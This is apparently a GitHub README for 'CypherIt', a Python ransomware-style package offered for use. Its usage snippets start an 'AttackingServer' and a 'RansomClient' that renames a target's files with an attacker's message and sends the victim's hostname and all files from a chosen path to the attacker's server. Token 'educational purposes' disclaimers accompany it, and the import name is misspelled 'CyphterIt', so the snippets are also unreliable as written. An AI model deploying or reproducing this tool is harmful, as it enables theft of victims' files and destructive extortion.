CypherIt
========

CypherIt is an intelligent tool which renames all the files to a txt file in a binder.You can write what ever you want.

All the files of the target will be saved in your directory and you can do what ever you want. The name of the directory is the targets hostname

Inspired by:
==========
B.I.GG. He had this wonderful idea

HOW DOES CYPHERIT WORK
======================

If you are familiar to my style of packages. You already know how simple it is

First of all create a server:

Server
------
````python
import CyphterIt as ci

ip, port = "127.0.0.1", 1234

server = ci.AttackingServer(ip, port)
server.start()
````

Client
------
````python
import CyphterIt as ci

ip, port, path, text = "127.0.0.1", 1234, r"C:\\test", "the one and only"
#You have to specify the path because this was just build for educational purposes. So please do not use it for bad thinks

data = ci.RansomClient(ip, port, path, text)
data.start()
````

You always have to run the server first and then the client.

The hostname of the target will be sent to your server

A Directory with the hostname of the target will be created.

All the data of target will be stored in that directory

Additional
=========
* PLEASE DO NOT HACK SOMEONE FOREIGN